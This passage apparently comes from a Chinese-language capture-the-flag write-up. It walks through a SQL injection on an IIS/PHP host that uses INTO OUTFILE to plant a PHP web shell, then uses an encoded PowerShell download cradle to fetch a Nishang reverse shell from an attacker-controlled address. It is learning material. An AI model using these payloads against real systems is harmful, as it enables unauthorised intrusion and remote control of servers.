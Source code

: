 接下来要做的是尝试使用 SQL 注入得到一个 shell。由于这是一台 IIS 服务器，web 根目录的默认位置是 C:\inetpub\wwwroot。从我的 Gobuster 扫描中知道有一个 uploads 目录，我可以猜测 uploads 目录在 C:\inetpub\wwwroot\uploads。然后，我尝试使用 INTO OUTFILE 在磁盘上写文件。还知道 web 服务器使用 PHP 运行，我使用一个简单的 web shell 和系统函数。

```
1' UNION SELECT 1,2,3,4,5,'<?php system($_GET["cmd"]); ?>' into outfile 'c:/inetpub/wwwroot/uploads/sifo.php' ;  -- -
```

现在，当我访问该页面时，我可以验证文件是否上传到了/uploads 目录:

![](img/93f30cdfb03d0d3ec4f90480aa730655.png)

我现在可以使用“cmd”参数运行命令了:

![](img/fd152f028dec92c94221b4f03354fe90.png)

我现在可以将它发送给 Burp，这样我就可以使用更长的命令了。然后我使用了来自 Nishang 的 Powershell 反向 shell，Invoke-PowerShellTcp.ps1 脚本:[https://github.com/samratashok/nishang](https://github.com/samratashok/nishang)

我将著名的 IEX 摇篮下载转换为 UTF16-le，如果我没记错的话，Powershell 与 Bash 有不同的编码，并将其编码为 base64，以避免通过网络发送它时出现任何问题，然后使用 Powershell 的 flag-encoded 命令运行它。

```
PS C:\ echo -n "IEX(new-object net.webclient).downloadString('[http://10.10.14.7/a.ps1'](http://10.10.14.7/a.ps1'))" | iconv -t utf-16le |base64 -w 0
```

发送到打嗝:

![](img/19111860bb14512c4db98c41f4148d21.png)

上面的脚本是这样的:

```
powershell.exe -exec bypass -enc "SQBFAFgAKABuAGUAdwAtAG8AYgBqAGUAYwB0ACAAbgBlAHQALgB3AGUAYgBjAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdAB"
```
